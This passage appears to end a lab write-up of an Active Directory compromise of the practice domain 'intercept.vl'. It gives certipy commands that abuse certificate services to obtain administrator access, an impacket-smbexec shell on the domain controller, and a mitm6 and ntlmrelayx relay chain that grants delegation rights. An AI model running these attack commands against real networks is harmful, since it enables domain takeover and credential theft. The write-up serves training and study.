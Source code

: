 ```
/usr/local/bin/certipy req -username simon.bowen@intercept.vl -hashes :<REDACTED> -ca 'intercept-DC01-CA' -target dc01.intercept.vl -retrieve 3 -dc-ip 10.10.210.165 -dns-tcp -ns 10.10.210.165

# Finally we can use the cert to authenticate, retrieve the NTLM hash & then connect to the DC as administrator
/usr/local/bin/certipy auth -pfx administrator.pfx -domain intercept.vl -username administrator -dc-ip 10.10.210.165
impacket-smbexec administrator@dc01.intercept.vl -hashes :<REDACTED>
```

This is the end of this chain. Originally I wanted to introduce mitm6 and spoofing/poisoning but this is currently not possible on this particular lab infrastruture. If that would be the case, it wouldn’t be neccesary to have the lnk/scf files in the beginning and you could exploit it as follows without having \*any\* domain credentials:

```
mitm6 -hw WS01 -d intercept.vl --ignore-nofqdn -i eth0
impacket-ntlmrelayx -t ldaps://dc01.intercept.vl -wh attacker-wpad --delegate-access
...
[*] Attempting to create computer in: CN=Computers,DC=intercept,DC=vl
[*] Adding new computer with username: NHWOLPTB$ and password: wazhp!/Z_i>gi_P result: OK
[*] Delegation rights modified succesfully!
[*] NHWOLPTB$ can now impersonate users on WS01$ via S4U2Proxy
```

## Resources

- <https://www.tarlogic.com/blog/ad-cs-esc7-attack/>
- <https://www.hackingarticles.in/lateral-movement-webclient-workstation-takeover/>
- <https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#abuse-genericall>
- <https://github.com/topotam/PetitPotam>
- <https://github.com/dirkjanm/krbrelayx>
- <https://github.com/fortra/impacket>